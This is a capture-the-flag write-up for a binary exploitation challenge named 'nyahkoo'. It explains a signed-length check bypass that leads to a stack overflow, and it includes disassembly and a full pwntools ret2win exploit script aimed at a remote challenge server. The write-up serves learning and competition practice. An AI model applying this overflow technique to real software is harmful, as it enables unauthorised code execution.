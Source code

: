 # nyahkoo 

Category: PWN
Points: ~980
Solves: 11

Challenge Description:
another russian test i couldn't understand

First blooded :p

Artifact Files:
[chall](./chall)

## Quick overview

This program asks us for a passphrase length at first. Typing a length like 10 chars,
we can then type some text and... We get denied. Obviously our random input wasn't the passphrase.

Alright let's take a look at the code then since this is very little information.

## Code

So the passphrase is loaded in memory from an environment variable :

```asm
│           0x004008cf      c745cc0000..   mov dword [var_34h], 0
│           0x004008d6      bf6a0a4000     mov edi, str.PASSPHRASE     ; 0x400a6a ; "PASSPHRASE" ; const char *name
│           0x004008db      e880fdffff     call sym.imp.getenv         ; char *getenv(const char *name)
│           0x004008e0      4889c2         mov rdx, rax
│           0x004008e3      488d45e0       lea rax, [dest]
│           0x004008e7      4889d6         mov rsi, rdx                ; const char *src
│           0x004008ea      4889c7         mov rdi, rax                ; char *dest
│           0x004008ed      e87efdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
```

After this the program just takes, exactly like we expected, a number using
`scanf("%d", &n)` and it then actually goes through a check.

The program checks the following condition:
```c
if(0xf < len) {
    puts("too big");
    exit(1);
}
```

Now one thing you'll notice is that this len is considered as a **SIGNED**
integer. Format String is "%d" which takes a signed int allows us to put a 
negative number like -1. 

Since this len input is used inside of fgets as an **UNSIGNED** integer. We can have
a very big overflow on the stack.

Now when we read our passphrase input we could overflow and jump anywhere in the memory
since the program doesn't have PIE.

Now let's search for targets after we get this control of PC.
We can use `readelf -s ./chall` to dump the symbols and we find a function called

**_Z3winv** -> (this is a c++ weird ass name but it basically means the function's called "win")

Now this looks like a basic ret2win challenge. The code of the win function is as follows:

```asm
┌ 16: sym.win__ ();
│           0x00400816      55             push rbp                    ; win()
│           0x00400817      4889e5         mov rbp, rsp
│           0x0040081a      bf580a4000     mov edi, str.cat__app_flag.txt ; 0x400a58 ; "cat /app/flag.txt" ; const char *string
│           0x0040081f      e86cfeffff     call sym.imp.system         ; int system(const char *string)
│           0x00400824      5d             pop rbp
└           0x00400825      c3             ret
```

This seems to just read the flag.txt file so let's try to apply all these ideas we got !

### Exploitation

Now something that I haven't mentionned and only ran into during exploitation
was that the passphrase is actually being checked and the program terminated with
an **exit()** call if we fail to pass that. Luckily for us we can overflow the passphrase in memory
and make it match with our flag input

The idea is pretty simple : 
-> write 15 A's and a Null Byte first to create a known string in the buffer
-> overwrite the passphrase with 15 A's and a Null byte to have it equal to our buffer input

This way the string functions of C will still stop reading at that null byte and we will
have a successful passphrase check.

Putting all of this together we get the following script:

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./chall')
context.terminal = ['alacritty', '-e']

if args.REMOTE:
    io = remote("84.201.137.163", 10186)
else:
    io = process()

io.sendlineafter(b': ', b'-1')

ret = 0x0000000000400641
win = 0x00400816

payload = b'A' * 15 + b'\x00' # overflow buffer
payload += b'A'* 15 + b'\x00' # overflow passphrase to pass check
payload += b'A'*24
payload += pack(ret)
payload += pack(win)

io.sendlineafter(b': ', payload)
io.interactive()
io.close()
```

Note that I had to get a **ret** gadget from memory in order to fix the stack's
alignment and make the win() function call system successfully.

Running this, we get the flag and a first blood during ctf :D

[Back to home](../../README.md)
